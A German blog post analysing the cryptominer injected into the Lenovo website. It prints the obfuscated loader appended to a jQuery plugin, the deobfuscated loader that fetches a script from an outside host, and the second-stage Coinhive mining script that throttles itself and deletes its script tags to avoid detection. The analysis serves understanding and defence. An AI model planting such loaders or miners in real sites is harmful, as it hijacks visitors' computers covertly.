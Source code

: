 ```yaml
---
title: Analyse - Lenovo-Cryptominer
author: Simon Biewald
description: Analyse des JS-Teils des Cryptominers der auch auf die Lenovo-Webseite eingeschleust wurde.
subject: Lenovo, Cryptominer, Coinhive, Malware
date: 2018-05-09T13:55
image: lenovo.png
---
```


# Analyse: Lenovo-Cryptominer

<figure>
    <img src="lenovo.png" alt="Beschrifteter Screenshot eines Injezierten Schadcodes in eine jQuery-Bibliothek">
    <figcaption>Injezierter Schadcode in eine jQuery-Bibliothek</figcaption>
</figure>

Vor einigen Tagen kam es in die Schlagzeilen: Durch ausgelassene Updates des Drupal-Shopsystems [fing sich die Lenovo-Webseite, und andere, einen Cryptominer ein][0].
Wie funktioniert der eingeschleuste Trojaner?

Der Trojaner läd in mehreren Stufen Skripte nach.

## Stufe 1

Injeziert wurde ein "Loader" in ein jQuery-Plugin, [jQuery Once][1], indem der folgender Schadcode an die `jquery.once.js` angehängt wurde:

<pre class="language-js line-numbers">
<code>var RqLm1=window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x67\x65\x74\x45\x6c\x65\x6d\x65\x6e\x74\x73\x42\x79\x54\x61\x67\x4e\x61\x6d\x65"]('\x68\x65\x61\x64')[0];var D2=window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x72\x65\x61\x74\x65\x45\x6c\x65\x6d\x65\x6e\x74"]('\x73\x63\x72\x69\x70\x74');D2["\x74\x79\x70\x65"]='\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74';D2["\x69\x64"]='\x6d\x5f\x67\x5f\x61';D2["\x73\x72\x63"]='\x68\x74\x74\x70\x3a\x2f\x2f\x76\x75\x75\x77\x64\x2e\x63\x6f\x6d\x2f\x74\x2e\x6a\x73';RqLm1["\x61\x70\x70\x65\x6e\x64\x43\x68\x69\x6c\x64"](D2);</code></pre>

Der Schadcode scheint unleserlich, jedoch sind nur alle Strings wie in C hexadezimal mit \x kodiert.
Nach dem Durchlauf eines Deobfuskator ergibt sich folgendes:

<pre class="language-js line-numbers">
<code>var RqLm1 = window["document"]["getElementsByTagName"]("head")[0];
var D2 = window["document"]["createElement"]("script");
D2["type"] = "text/javascript";
D2["id"] = "m_g_a";
D2["src"] = "http://vuuwd.com/t.js";
RqLm1["appendChild"](D2);</code></pre>

Dabei wird zu dem `head`-Element der Webseite ein `script`-Element hinzugefügt,
welches von der URL `http://vuuwd.com/t.js` weiteres JavaScript nachlädt.

Das nachgeladene JavaScript ist zwar nun offline, 
konnte aber mit Hilfe [der WaybackMachine][2] nachgeschlagen werden.

## Stufe 2

<pre class="language-js line-numbers">
<code>function loadScript(url, callback) {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.id = "m_g_a_j_s_";
    if (script.readyState) {
        script.onreadystatechange = function () {
            if (script.readyState == "loaded" || script.readyState == "complete") {
                script.onreadystatechange = null;
                callback();
            }
        };
    } else { // others
        script.onload = function () {
            callback();
        };
    }
    script.src = url;
    document.body.appendChild(script);
}
loadScript("https://coinhive.com/lib/coinhive.min.js", function () {
	var miner = new CoinHive.Anonymous('KNqo4Celu2Z8VWMM0zfRmeJHIl75wMx6', {throttle: 0.2});
	miner.start();
	var s = document.getElementById('m_g_a');
	var p = s.parentElement;
	p.removeChild(s);
	var s1 = document.getElementById('m_g_a_j_s_');
	var p1 = s1.parentElement;
	p1.removeChild(s1);
});</code></pre>

Zuerst wird die Funktion `loadScript` definiert, mit weiteres JavaScript mit
der oben genannte Methode nachgeladen wird, zusätzlich wird dazu ein Callback
ausgeführt, wenn die Resource geladen wurde.

Im Weiteren wird ein Cryptominer von [Coinhive][3] nachgeladen und eingerichtet.
Interessanterweise wird die maximal zu benutzende Rechenleistung auf 20%
eingestellt. Zusätzlich dazu werden die zuvor erstellen `script`-Elemente
aus dem DOM entfernt.

## Fazit

Besonders der letzte Teil lässt darauf schließen, dass der Malware-Autor **vermeiden wollte
entdeckt zu werden** - im DOM-Baum währen
`script`-Elemente nicht mehr zu finden und durch die reduzierte Rechenleistung
würden auch Besucher der infizierten Webseite keinen Verdacht schöpfen.

 [0]: https://heise.de/-4044683
 [1]: https://github.com/RobLoach/jquery-once
 [2]: https://https://web.archive.org/web/20180506052843/http://vuuwd.com/t.js
 [3]: https://coinhive.com
